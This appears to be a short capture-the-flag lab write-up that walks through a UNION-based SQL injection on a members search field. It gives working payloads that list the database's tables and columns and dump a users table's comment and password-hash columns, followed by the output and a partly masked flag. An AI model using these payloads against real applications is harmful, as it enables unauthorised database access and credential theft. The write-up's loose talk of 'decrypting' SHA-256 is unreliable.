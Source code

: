 # First step

In the members page, the search field gives a feeling to try an SQL injection to get all the table names and its columns names information from the database

# How to do that

I send the script
```
1 OR 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME  FROM INFORMATION_SCHEMA.COLUMNS
```

then after a lot of checks we checks only on the users table
```
1 OR 1=1 UNION SELECT Commentaire, countersign FROM users
```
the original script:
```
SELECT * FROM users WHERE id = 'user_input';
```

after inject the script and send it as an userId:
```
SELECT * FROM users WHERE id = 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users;
```
So the result is a table of users it's gonna be like that:
```
ID: 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

After the Sh256 decryption the flag we get is:
```
9995cae900a927ab1500d317dfcXXXXXXXXXXXXXXXXXXXXX
```

